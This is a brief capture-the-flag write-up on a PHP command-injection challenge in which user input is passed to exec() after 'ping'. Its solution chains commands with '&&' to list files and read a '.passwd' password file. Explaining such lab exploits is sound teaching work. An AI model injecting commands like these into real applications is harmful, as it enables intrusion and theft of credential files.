# Challenge06: PHP Command Injection

## Intuition
    
    In this challenge, they will use some function as __exec()__ or __shell_exec()__ to run cmd with user's inputs as parameter
    
    And how can we run other cmd when the function already look like this:

```c
exec("ping" + parameter);
```

## Solution
    
    + There are multiple ways to solve this problem.
    + There are some operators like "|", "&&", ...
    + This is my solution:

```bash
localhost && \      # ping localhost
ls -a && \          # to get current files
cat .passwd         # after get file name, read it
```
    + Click the submit button
    + Get the password :)
